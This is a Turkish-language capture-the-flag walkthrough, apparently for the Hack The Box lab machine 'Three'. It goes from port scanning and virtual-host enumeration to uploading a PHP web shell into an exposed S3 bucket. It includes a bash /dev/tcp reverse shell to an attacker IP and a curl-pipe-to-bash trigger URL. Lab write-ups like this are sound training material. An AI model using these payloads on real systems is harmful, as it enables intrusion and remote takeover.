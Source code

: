 ```yaml
---
glightbox: true
---
```


# Three

!!! info "Target IP Address"

    10.129.227.248

Hedef makine için Nmap taraması gerçekleştir:

```bash
sudo nmap 10.129.227.248 -p- -Pn -T5 --open
```

```text title="Output" hl_lines="7"
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-22 00:28 +03
Nmap scan report for 10.129.227.248
Host is up (0.33s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 7.73 second
```

Web tarayıcısında [http://10.129.227.248](http://10.129.227.248) adresine gidildiğinde yönlendirilen siteye (`thetoppers.htb`) erişebilmek için aşağıdaki komutu çalıştır:

```bash
echo "10.129.227.248 thetoppers.htb" | sudo tee -a /etc/hosts
```

Ardından aşağıdaki komutu çalıştır:

```bash
gobuster vhost --append-domain -u thetoppers.htb -w /opt/useful/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
```

```text title="Output" hl_lines="15"
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://thetoppers.htb
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /opt/useful/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: s3.thetoppers.htb Status: 404 [Size: 21]

...SNIP...
```

!!! info "Amazon S3"

    Gobuster ile elde edilen vHost bilgisini Google üzerinde aratırsak, bundan sonraki adımlarımızın [Amazon S3](https://docs.aws.amazon.com/AmazonS3/latest/userguide/Welcome.html) ile ilgili olacağını öğrenebiliriz.

Web tarayıcısında S3 kovasına (`s3.thetoppers.htb`) erişebilmek için aşağıdaki komutu çalıştır:

```bash
echo "10.129.227.248 s3.thetoppers.htb" | sudo tee -a /etc/hosts
```

AWS yapılandırmasını gerçekleştir (sorulduğunda her seçenek için `temp` değerini verebilirsin):

```bash
aws configure
```

```text title="Output"
AWS Access Key ID [None]: temp
AWS Secret Access Key [None]: temp
Default region name [None]: temp
Default output format [None]: temp
```

Aşağıdaki one-liner komutunu PHP dosyası olarak kaydet:

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

Oluşturulan bu dosyayı S3 kovasına (bucket) yükle:

```bash
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```

Ardından aşağıdaki reverse shell dosyasını oluştur:

```bash title="shell.sh" linenums="1"
#!/bin/bash
bash -i >&/dev/tcp/10.10.14.253/1337 0>&1
```

Netcat ile 1337 numaralı port üzerinden dinlemeye başla:

```bash
nc -nvlp 1337
```

Reverse shell dosyasının bulunduğu dizinde bir Python HTTP sunucusu başlat:

```bash
python -m http.server 8000
```

Web tarayıcısında aşağıda verilen adrese giderek Netcat üzerinde reverse shell elde et:

```text
https://thetoppers.htb/shell.php?cmd=curl%2010.10.14.253:8000/shell.sh|bash
```

Bu shell üzerinde aşağıdaki komutu çalıştırarak ile bayrağı ele geçir:

```bash
cat /var/www/flag.txt
```
